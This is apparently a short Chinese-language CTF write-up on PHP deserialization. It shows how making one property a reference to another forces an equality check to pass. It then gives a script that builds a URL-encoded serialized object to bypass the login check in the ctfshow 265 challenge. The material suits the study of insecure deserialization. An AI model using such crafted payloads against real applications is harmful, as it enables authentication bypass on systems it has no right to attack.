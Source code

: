 

### 利用引用

```php
<?php
class test
{
    public $a;
    public $b;
    public function __construct()
    {
        $this->a = 'abc';
        $this->b = &$this->a;
    }
    public function __destruct()
    {
        if ($this->a === $this->b) {
            echo 666;
        }
    }
}
$a = serialize(new test());

```

上面这个例子将 `$b` 设置为 `$a` 的引用，可以使 `$a` 永远与 `$b` 相等

对应于**ctfshow 265**

脚本代码：

```php
<?php
class ctfshowAdmin
{
    public $token;
    public $password;
    public function __construct($t, $p)
    {
        $this->token = $t;
        $this->password = &$this->token;
    }
    public function login()
    {
        return $this->token === $this->password;
    }
}

$a = serialize(new ctfshowAdmin('123', '123'));
echo urlencode($a);

```

